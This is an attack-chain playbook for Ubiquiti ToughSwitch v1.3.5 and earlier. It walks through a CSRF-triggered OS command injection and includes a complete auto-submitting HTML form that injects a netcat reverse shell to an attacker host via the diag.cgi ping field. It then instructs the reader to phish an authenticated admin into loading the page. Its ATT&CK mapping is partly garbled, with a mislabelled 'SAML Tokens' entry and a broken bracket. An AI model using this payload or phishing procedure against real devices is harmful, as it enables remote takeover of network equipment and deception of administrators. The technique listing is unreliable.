

# CSRF-Triggered OS Command Injection Leading to Authenticated RCE in ToughSwitch

Multi-stage attack chain demonstrating a complete attack workflow exploiting vulnerabilities in Ubiquiti ToughSwitch v1.3.5 and prior versions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for hosting the malicious page
- Text editor for crafting HTML

### Target Environment

- ToughSwitch v1.3.5 or prior
- Web interface accessible
- Authenticated user session required

### Initial Access Requirements

- Attacker must lure an authenticated admin to visit the malicious page
- No direct network access to the device needed beyond the victim's browser
- Victim must be authenticated to the ToughSwitch web interface

## Detailed Attack Procedures

### Step 1: Craft Malicious Webpage for CSRF
procedure: [[procedures/Trigger-CSRF-OS-Command-Injection-in-ToughSwitch]]

**Objective**: Create an HTML page that automatically submits a form to the vulnerable ToughSwitch endpoint, injecting an OS command via lack of input validation.

**Instructions**: Use a text editor to create an HTML file with an auto-submitting form targeting the ToughSwitch diagnostic or ping endpoint (e.g., /diag.cgi). The form should include parameters that allow command injection, such as appending '; malicious_command' to an IP input field.

Example HTML structure:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf-form" action="http://toughswitch-ip/diag.cgi" method="POST">
    <input type="hidden" name="ip" value="127.0.0.1; nc -e /bin/sh attacker-ip 4444 #">
    <input type="hidden" name="action" value="ping">
</form>
<script>
document.getElementById('csrf-form').submit();
</script>
</body>
</html>
```

Host this page on an attacker-controlled server (e.g., via Python's http.server or a free hosting service).

**Expected Output**: When visited by an authenticated user, the form submits silently, triggering the command injection.

**Success Indicators**:
- Form submission occurs without user interaction
- No CSRF token validation blocks the request

### Step 2: Lure Victim and Achieve RCE
procedure: [[procedures/Trigger-CSRF-OS-Command-Injection-in-ToughSwitch]]

**Objective**: Socially engineer an authenticated ToughSwitch admin to visit the malicious page, executing the injected command for RCE.

**Instructions**: Send the malicious URL via phishing email, social media, or other means to the target user. Upon visit, the browser sends the CSRF request using the victim's session cookies, injecting the OS command (e.g., reverse shell via netcat).

Monitor the listener on attacker-ip:4444 for incoming connection.

**Expected Output**: Reverse shell connection established, allowing arbitrary command execution on the ToughSwitch device.

**Success Indicators**:
- Incoming shell connection from the device
- Ability to run commands like 'id' or 'uname -a' on the target

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protections to perform state-changing actions from an external site
2. Exploited command injection in web interface inputs for RCE
3. Achieved authenticated remote code execution without direct access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Command-Line Interface]] Command and Scripting Interpreter
- [[SAML Tokens]] External System Image]

### MITRE ATT&CK Tactics

- [[Execution]] Execution
- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
